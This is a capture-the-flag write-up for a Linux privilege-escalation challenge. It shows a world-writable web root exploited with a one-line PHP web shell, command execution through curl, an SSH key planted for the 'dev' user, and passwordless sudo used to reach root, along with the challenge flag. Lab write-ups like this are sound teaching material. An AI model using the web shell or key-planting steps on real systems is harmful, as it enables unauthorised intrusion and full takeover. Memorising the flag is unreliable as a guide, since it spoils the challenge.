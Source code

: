 # Undercover#2

### Category

System

### Description

Now that you proved yourself, You have to assess the security of one of their developpers systems. He's a very good coder, but not that good at keeping his system safe. Could you report to us any vulnerabilities you find in his system?

The base credentials are:
```
user:password123
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

We can connect as `user`. It turns out, that the folder /var/www/html is world writable.
```
user@e3eb9614f8a6:~$ ls -ld /var/www/html
drwxrwxrwx 1 root root 4096 Apr  8 10:48 /var/www/html
```

We also notice that the apache server is running as the `dev` user, instead of the `www-data` user.
```
user@e3eb9614f8a6:~$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  18388  3064 ?        Ss   10:47   0:00 /bin/bash /root/start.sh
root          12  0.0  0.0 327136 16904 ?        Ss   10:47   0:00 /usr/sbin/apache2 -k start
root          14  0.0  0.0  72312  5756 ?        S    10:47   0:00 /usr/sbin/sshd -D
dev           15  0.0  0.0 331780 12912 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           16  0.0  0.0 331772 12368 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           17  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           18  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
dev           19  0.0  0.0 331536  8916 ?        S    10:47   0:00 /usr/sbin/apache2 -k start
root          22  0.0  0.0 103864  7168 ?        Ss   10:47   0:00 sshd: user [priv]
user          33  0.0  0.0 103864  3680 ?        R    10:47   0:00 sshd: user@pts/0
user          34  0.0  0.0  20372  3848 pts/0    Ss   10:47   0:00 -bash
user          58  0.0  0.0  38460  3456 pts/0    R+   10:50   0:00 ps -aux
```

The easy thing to do here, is to write a webshell into the `/var/www/html` folder. You can echo it, or use vim.
```php
<?php system($_GET["cmd"]) ?>
```

And here we go.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

Let's get a shell. To do so, we can simply copy our public ssh key to a world readable place, like the `/tmp` folder.
```
user@e3eb9614f8a6:~$ cp ~/.ssh/id_rsa.pub /tmp/authorized_keys
```

Using our webshell, we can just copy the key to `dev`'s `.ssh` folder.
```
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=mkdir%20/home/dev/.ssh
user@e3eb9614f8a6:~$ curl localhost/shell.php?cmd=cp%20/tmp/authorized_keys%20/home/dev/.ssh
user@e3eb9614f8a6:~$ ssh dev@localhost
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.13.0-39-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dev@e3eb9614f8a6:~$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

At this point, getting a shell as root is very easy.
We notice that the dev user can run any root command without any password (probably for more comfort).
```
dev@e3eb9614f8a6:~$ sudo -l
Matching Defaults entries for dev on e3eb9614f8a6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev may run the following commands on e3eb9614f8a6:
    (ALL) NOPASSWD: ALL
dev@e3eb9614f8a6:~$ sudo /bin/bash
root@e3eb9614f8a6:~# id
uid=0(root) gid=0(root) groups=0(root) 
root@e3eb9614f8a6:~# cat /root/flag.txt 
Hero{3w-d4ta_1s_n0t_us3l3s5}
```


### Flag

```Hero{3w-d4ta_1s_n0t_us3l3s5}```
